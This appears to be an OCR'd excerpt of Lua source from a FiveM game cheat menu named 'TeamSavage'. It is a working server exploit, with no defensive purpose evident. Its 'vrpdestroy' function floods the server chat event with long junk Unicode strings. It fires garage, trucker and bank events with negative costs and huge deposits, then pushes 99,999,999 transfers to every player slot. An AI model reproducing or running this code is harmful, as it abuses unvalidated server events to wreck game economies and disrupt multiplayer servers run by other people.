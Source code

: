             )
        else
            TeamSavage.PushNotification("Couldn't find ESX, try refresing it in the settings tab", 5000)
        end
    end
end





function vrpdestroy()
    for bD = 0, 9 do
        TriggerServerEvent(
            '_chat:messageEntered',
            '102| Id 603 Id 204 | Id 505 | id 652 | id 1903 | id 205 | id 4 | id 69 | id 841 | id 953 | id 572 | id 175 | id 942 | 652 | 947 | 142 | 049 | 712 | 945 | 108 | 371 | 816 | 481|543|722|754 |952|㻵矈궽ꢾ럪በ뉦麲弈徭럅㜾蜒滼潃㡕⦋뚕ᙏ醳ң⠝ﺵ閈偗솢ࠪ絽Ћ?轫䌎뤷獴뉹隬疉褬碉ು슓톪鞀鐧닟㾩塂⧮䊍⢆ﴼ矉̧粵쭔赊씥㝙啟䗽ⵍꮈ몐﹓ϲ༨ῌ옩珹狀聗⚝৻ࠥ㊊㲓❮핰튆ᷬऊ켗鳗푐䪉텥욤툗Ꮂ똥☧쁶꧅妷⛻揙ᩣᡩ쇀ፘ콑茕伇ꂥ载穂㝒駯Ḗ왪׺ⷔ缧鰅ᝧ㟅歎⌞츀膈Պᘾ︁溳軑鷮톈썷ጬ앳?藍⧵稵鑙젉뫃?䖁෿䕄햘栝奬좮ⴹ~?蝓ځ庸䖇瀼譜ꟿ뙍㦩쑢❂囊ᇝ軃쓁을֏ǚ᲋憕톧⭜蕀㭊똢쉵逢⪐錆㤚㨡鍪쿅鵤?碰尮⻖ᢒ㻵矈궽ꢾ럪በ뉦麲弈徭럅㜾蜒滼潃㡕⦋뚕ᙏ醳ң⠝ﺵ閈偗솢ࠪ絽Ћ?轫䌎뤷獴뉹隬疉褬碉ು슓톪鞀鐧닟㾩塂⧮䊍⢆ﴼ矉̧粵쭔赊씥㝙啟䗽ⵍꮈ몐﹓ϲ༨ῌ옩珹狀聗⚝৻ࠥ㊊㲓❮핰튆ᷬऊ켗鳗푐䪉텥욤툗Ꮂ똥☧쁶꧅妷⛻揙ᩣᡩ쇀ፘ콑茕伇ꂥ载穂㝒駯Ḗ왪׺ⷔ缧鰅ᝧ㟅歎⌞츀膈Պᘾ︁溳軑鷮톈썷ጬ앳?藍⧵稵鑙젉뫃?䖁෿䕄햘栝奬좮ⴹ~?蝓ځ庸䖇瀼譜ꟿ뙍㦩쑢❂囊ᇝ軃쓁을֏ǚ᲋憕톧⭜蕀㭊똢쉵逢⪐錆㤚㨡鍪쿅鵤?碰尮⻖ᢒ㻵矈궽ꢾ럪በ뉦麲弈徭럅㜾蜒滼潃㡕⦋뚕ᙏ醳ң⠝ﺵ閈偗솢ࠪ絽Ћ?轫䌎뤷獴뉹隬疉褬碉ು슓톪鞀鐧닟㾩塂⧮䊍⢆ﴼ矉̧粵쭔赊씥㝙啟䗽ⵍꮈ몐﹓ϲ༨ῌ옩珹狀聗⚝৻ࠥ㊊㲓❮핰튆ᷬऊ켗鳗푐䪉텥욤툗Ꮂ똥☧쁶꧅妷⛻揙ᩣᡩ쇀ፘ콑茕伇ꂥ载穂㝒駯Ḗ왪׺ⷔ缧鰅ᝧ㟅歎⌞츀膈Պᘾ︁溳軑鷮톈썷ጬ앳?藍⧵稵鑙젉뫃?䖁෿䕄햘栝奬좮ⴹ~?蝓ځ庸䖇瀼譜ꟿ뙍㦩쑢❂囊ᇝ軃쓁을֏ǚ᲋憕톧⭜蕀㭊똢쉵逢⪐錆㤚㨡鍪쿅鵤?碰尮⻖ᢒ',
            {
                141,
                255
            },
            '^' .. bD .. '㻵矈궽ꢾ럪በ뉦麲弈徭럅㜾蜒滼潃㡕⦋뚕ᙏ醳ң⠝ﺵ閈偗솢ࠪ絽Ћ?轫䌎뤷獴뉹隬疉褬碉ು슓톪鞀鐧닟㾩塂⧮䊍⢆ﴼ矉̧粵쭔赊씥㝙啟䗽ⵍꮈ몐﹓ϲ༨ῌ옩珹狀聗⚝৻ࠥ㊊㲓❮핰튆ᷬऊ켗鳗푐䪉텥욤툗Ꮂ똥☧쁶꧅妷⛻揙ᩣᡩ쇀ፘ콑茕伇ꂥ载穂㝒駯Ḗ왪׺ⷔ缧鰅ᝧ㟅歎⌞츀膈Պᘾ︁溳軑鷮톈썷ጬ앳?藍⧵稵鑙젉뫃?䖁෿䕄햘栝奬좮ⴹ~?蝓ځ庸䖇瀼譜ꟿ뙍㦩쑢❂囊ᇝ軃쓁을֏ǚ᲋憕톧⭜蕀㭊똢쉵逢⪐錆㤚㨡鍪쿅鵤?碰尮⻖ᢒ㻵矈궽ꢾ럪በ뉦麲弈徭럅㜾蜒滼潃㡕⦋뚕ᙏ醳ң⠝ﺵ閈偗솢ࠪ絽Ћ?轫䌎뤷獴뉹隬疉褬碉ು슓톪鞀鐧닟㾩塂⧮䊍⢆ﴼ矉̧粵쭔赊씥㝙啟䗽ⵍꮈ몐﹓ϲ༨ῌ옩珹狀聗⚝৻ࠥ㊊㲓❮핰튆ᷬऊ켗鳗푐䪉텥욤툗Ꮂ똥☧쁶꧅妷⛻揙ᩣᡩ쇀ፘ콑茕伇ꂥ载穂㝒駯Ḗ왪׺ⷔ缧鰅ᝧ㟅歎⌞츀膈Պᘾ︁溳軑鷮톈썷ጬ앳?藍⧵稵鑙젉뫃?䖁෿䕄햘栝奬좮ⴹ~?蝓ځ庸䖇瀼譜ꟿ뙍㦩쑢❂囊ᇝ軃쓁을֏ǚ᲋憕톧⭜蕀㭊똢쉵逢⪐錆㤚㨡鍪쿅鵤?碰尮⻖ᢒ㻵矈궽ꢾ럪በ뉦麲弈徭럅㜾蜒滼潃㡕⦋뚕ᙏ醳ң⠝ﺵ閈偗솢ࠪ絽Ћ?轫䌎뤷獴뉹隬疉褬碉ು슓톪鞀鐧닟㾩塂⧮䊍⢆ﴼ矉̧粵쭔赊씥㝙啟䗽ⵍꮈ몐﹓ϲ༨ῌ옩珹狀聗⚝৻ࠥ㊊㲓❮핰튆ᷬऊ켗鳗푐䪉텥욤툗Ꮂ똥☧쁶꧅妷⛻揙ᩣᡩ쇀ፘ콑茕伇ꂥ载穂㝒駯Ḗ왪׺ⷔ缧鰅ᝧ㟅歎⌞츀膈Պᘾ︁溳軑鷮톈썷ጬ앳?藍⧵稵鑙젉뫃?䖁෿䕄햘栝奬좮ⴹ~?蝓ځ庸䖇瀼譜ꟿ뙍㦩쑢❂囊ᇝ軃쓁을֏ǚ᲋憕톧⭜蕀㭊똢쉵逢⪐錆㤚㨡鍪쿅鵤?碰尮⻖ᢒ'
        )
    end
    TriggerServerEvent(
        'lscustoms:payGarage',
        {
            costs = -99999999
        }
    )
    TriggerServerEvent('trucker:success',999999999)
    TriggerServerEvent('Banca:deposit', 999999999)
    TriggerServerEvent('bank:deposit', 999999999)
    local di = GetPlayerServerId(PlayerId())
    for i = 0, 256 do
        TriggerEvent('bank:transfer', di, GetPlayerServerId(i), 99999999)
    end
end
local function debugPrint(text)
    if TeamSavage.debug then
        Citizen.Trace('[TeamSavage] ' .. tostring(text))
    end
end
